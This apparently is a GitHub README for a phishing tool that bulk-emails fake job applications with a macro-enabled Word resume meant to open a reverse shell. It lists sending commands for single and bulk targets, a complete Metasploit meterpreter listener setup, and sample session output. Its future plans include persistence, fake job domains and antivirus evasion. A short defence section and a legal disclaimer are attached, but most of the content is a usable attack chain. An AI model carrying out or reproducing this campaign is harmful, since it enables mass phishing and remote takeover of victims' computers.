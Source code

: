 # JobBait - Automated Phishing Mass Attack

**JobBait** is a project designed to demonstrate the mechanics of phishing attacks and remote access techniques. It automates the process of sending a **malicious Word document (`.docm`)** via email to multiple recipients. When the document is opened and macros are enabled, it establishes a **reverse shell** connection to the attacker's machine.

## 📌 How It Works

### 1️⃣ Automated Phishing Emails (`jobbait.py`)

* Sends a **fake job application email** with an attached  **malicious resume** .
* Supports sending to **a single target** or  **multiple targets from a file** .
* Uses **SMTP (Gmail, Outlook, or any mail server)** to deliver emails.

### 2️⃣ Malicious Word Macro (`.docm`)

* The embedded  **VBA macro executes when the document is opened** .
* The payload  **downloads and executes a reverse shell** .
* Execution relies on a **classical social engineering tactic**: convincing the user to enable macros.

### 3️⃣ Reverse Shell Execution (`Metasploit`)

* The attacker listens for incoming connections using the  **Metaspoit Framework** .
* When the victim enables macros, the payload  **executes and connects back** .
* The attacker gains  **remote control over the victim’s machine** .

## ⚠ **Important Note on Detection**

This macro  **will be detected by modern antivirus solutions and EDR (Endpoint Detection & Response)** . To successfully execute this attack in a real-world scenario,  **bypassing security mechanisms is required** , but that is  **out of the scope of this project** . The goal is to  **understand the attack chain, not to evade defenses** .

## 📂 Project Structure

```
📁 JobBait
├── 📜 README.md          # This file
├── 📜 jobbait.py         # Phishing automation script
├── 📜 Resume_John_DOE.docm  # Malicious Word document
├── 📜 targets.txt        # List of target emails (optional)
```

## 🛠 Installation & Usage

### 1️⃣ Configure Email Sender

Edit `jobbait.py` to use a test email account (do not use personal email accounts):

```python
EMAIL_SENDER = "yourburneremail@gmail.com"
EMAIL_PASSWORD = "your-email-password"
```

### 2️⃣ Run the Phishing Script

#### ✅ Send to a Single Target

```bash
python jobbait.py target@example.com
```

#### ✅ Send to Multiple Targets (from `targets.txt`)

```bash
python jobbait.py targets.txt
```

### 3️⃣ Start the Metasploit Listener

On  **Kali Linux** , run:

```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.X.X  # Kali IP
set LPORT 4444
exploit -j
```

### 4️⃣ Victim Opens the Word File

Once the victim opens the `.docm` file and enables macros, a reverse shell is established:

```plaintext
[*] Meterpreter session 1 opened (192.168.X.X:4444 -> 192.168.X.Y:52000)
meterpreter >
```

## 🔥 Features

✅ **Automated email distribution** (single or bulk targets)
✅ **Realistic phishing email template**
✅ **Demonstrates a full attack chain**
✅ **Designed for educational purposes**

## 🛡 How to Defend Against This Attack

✔ **Disable Macros by Default** in Office settings.
✔ **Enable Email Filtering** to block `.docm` attachments.
✔ **Use Endpoint Detection & Response (EDR)** to catch suspicious macro execution.
✔ **Train Employees** on phishing awareness (verify senders before opening attachments).

## 🚨 Ethical & Legal Considerations

⚠ **This tool is for EDUCATIONAL & LEGAL penetration testing ONLY.**
⚠ **Unauthorized use is ILLEGAL** under cybercrime laws.
⚠ **Use this only in controlled environments or with explicit permission.**

## 🎓 Learning Outcomes

* Understanding  **payload obfuscation techniques** .
* Learning **how malicious macros execute** in Office documents.
* Setting up  **reverse shells with Metasploit** .

## 🎯 Future Improvements

* Add **persistence mechanisms** to maintain access even after a reboot.
* Use **fake job domains** for better social engineering effectiveness.
* Bypass **basic antivirus and email filtering** techniques by improving payload obfuscation.

## 🚀 Author & Contact

🔹 **Created by:** Anthony SILVA-RAYNAL
🔹 **LinkedIn:** [My personnal LinkedIn](https://www.linkedin.com/in/anthony-silva-raynal-11b108230/)
🔹 **GitHub:** [PhasmeHargneux](https://github.com/PhasmeHargneux/PhasmeHargneux/)

## 📜 Disclaimer

This project is intended for  **ethical cybersecurity research and penetration testing** . I **do not condone illegal activities** and am **not responsible for any misuse** of this tool.
